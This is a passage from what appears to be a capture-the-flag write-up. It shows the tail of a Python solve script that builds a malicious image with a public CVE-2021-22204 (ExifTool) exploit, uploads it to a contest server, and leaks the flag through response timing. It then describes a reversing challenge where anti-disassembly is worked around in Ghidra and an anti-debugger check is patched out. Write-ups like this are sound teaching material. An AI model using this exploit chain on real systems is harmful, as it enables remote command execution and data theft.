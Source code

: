 ```py
    )
    print(cmd)

    ## Craft the image using a CVE PoC found online
    ## Download the exploit from here, or do it by hand
    ## https://github.com/UNICORDev/exploit-CVE-2021-22204
    os.system(f"python ./cve-2021-22204.py -c '{cmd}'")

    ## Send a request computing the time. We will use time to exfiltrate a single character
    ## of the flag at a time
    start = time.time()
    r = requests.post(
        "http://34.85.58.100:11008/upload", files={"file": open("./image.jpg", "rb")}
    )
    end = time.time()
    elapsed = end - start

    ## Check if we got a match with one of our expected characters.
    ## It may happen that this script fails (finds the wrong letter) due to network latency,
    ## but it did not happen in practice
    print(f"Elapsed: {elapsed}")
    try:
        char = "0123456789abcdef"[int(elapsed)]
        print(f"Found: {char}")
        if char in "1234567890abcdef}":
            flag += char
    except:
        flag += "?"
        print("Rejected!")
    i += 1
```

## Reversing

### Fishing

Watching the executable with `Ghidra` we can see that it has some anti-disassemble techniques that prevent Ghidra to fully disassemble some functions so when we find them we can just manually tell `ghidra` to disassemble them again by pressing `D` on the starting address and then `F`.

We can also see that the executable gives an error message when using a debugger which can be bypassed patching the file.

```text
14001b49 74 52           JZ        LAB_140001b9d
to
140001b49 75 52           JNZ        LAB_140001b9d

140001c7a 75 0a           JNZ         LAB_140001c86
to
140001c7a 74 0a           JZ         LAB_140001c86


140001c84 74 52           JZ        LAB_140001cd8
to
140001c84 75 52           JNZ        LAB_140001cd8
```
